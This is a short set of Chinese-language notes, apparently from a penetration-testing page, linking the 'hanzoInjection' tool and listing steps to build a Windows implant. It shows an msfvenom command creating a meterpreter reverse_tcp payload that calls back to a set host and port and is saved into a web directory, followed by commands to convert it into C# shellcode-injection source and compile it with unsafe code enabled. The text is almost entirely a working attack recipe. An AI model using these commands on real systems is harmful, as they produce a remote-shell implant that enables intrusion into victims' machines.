 	https://github.com/P0cL4bs/hanzoInjection
	生成
	>msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.108 lport=12138 -f raw -o /var/www/html/1.bin
	>HanzoInjection.exe -p 1.bin -o 1.cs
	编译1.cs
	属性-生成-允许不安全代码